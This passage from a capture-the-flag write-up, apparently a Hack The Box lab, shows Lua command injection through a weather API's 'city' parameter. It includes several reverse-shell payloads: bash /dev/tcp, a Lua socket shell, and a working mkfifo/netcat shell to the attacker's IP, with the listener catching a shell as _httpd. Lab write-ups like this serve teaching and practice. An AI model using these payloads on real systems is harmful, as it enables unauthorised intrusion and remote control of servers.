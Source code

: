 

This isn't a shell, but I know that the box has netcat and can connect
to me. I could try `-e /bin/bash`, but it doesn't work. Running
`nc -h 2>&1` shows the `-e` option isn't there. My goto Bash shell
actually does give a connection back, but then immediately dies:



    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast' -s



I tried a Lua shell, but the modules needed weren't there:



    oxdf@parrot$ curl -G --data-urlencode "city=') require('socket');require('os');t=socket.tcp();t:connect('10.10.14.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3') --" 'http://10.10.10.218/weather/forecast' -s
    {"code": 500,"error": "unknown city: <br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
            no field package.preload['socket']
            no file '/usr/share/lua/5.3/socket.lua'
            no file '/usr/share/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.lua'
            no file '/usr/lib/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.so'
            no file '/usr/lib/lua/5.3/loadall.so'



The FIFO shell did work:



    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s



And it connects to a listening `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 65453
    sh: can't access tty; job control turned off
    $ id
    uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)



## Shell as r.michaels

### Enumeration

#### Web

In the web root there are three files:
